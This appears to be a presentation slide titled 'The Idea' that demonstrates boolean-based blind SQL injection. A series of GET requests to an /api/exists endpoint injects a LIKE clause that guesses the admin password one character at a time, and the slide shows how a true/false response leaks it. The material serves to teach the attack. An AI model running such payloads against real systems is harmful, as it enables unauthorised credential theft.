

The Idea
GET /api/exists?user=' or user='admin' and pass like 'a%'-- -
{"exists": false}
GET /api/exists?user=' or user='admin' and pass like 'b%'-- -
{"exists": false}
GET /api/exists?user=' or user='admin' and pass like 'c%'-- -
{"exists": false}
...
GET /api/exists?user=' or user='admin' and pass like 'm%'-- -
{"exists": false}
GET /api/exists?user=' or user='admin' and pass like 'n%'-- -
{"exists": true}